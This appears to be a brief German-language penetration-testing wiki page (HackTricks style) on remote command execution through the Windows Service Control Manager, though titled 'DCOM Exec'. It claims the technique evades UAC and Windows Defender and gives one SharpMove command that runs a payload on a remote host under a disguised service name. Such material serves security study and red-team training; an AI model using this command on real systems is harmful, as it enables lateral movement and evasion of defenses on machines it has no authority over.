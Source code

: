 # DCOM Exec

{{#include ../../banners/hacktricks-training.md}}

## SCM

**SCMExec** ist eine Technik, um Befehle auf entfernten Systemen auszuführen, indem der Service Control Manager (SCM) verwendet wird, um einen Dienst zu erstellen, der den Befehl ausführt. Diese Methode kann einige Sicherheitskontrollen umgehen, wie z.B. die Benutzerkontensteuerung (UAC) und Windows Defender.

## Tools

- [**https://github.com/0xthirteen/SharpMove**](https://github.com/0xthirteen/SharpMove):

SharpMove.exe action=scm computername=remote.host.local command="C:\windows\temp\payload.exe" servicename=WindowsDebug amsi=true

{{#include ../../banners/hacktricks-training.md}}
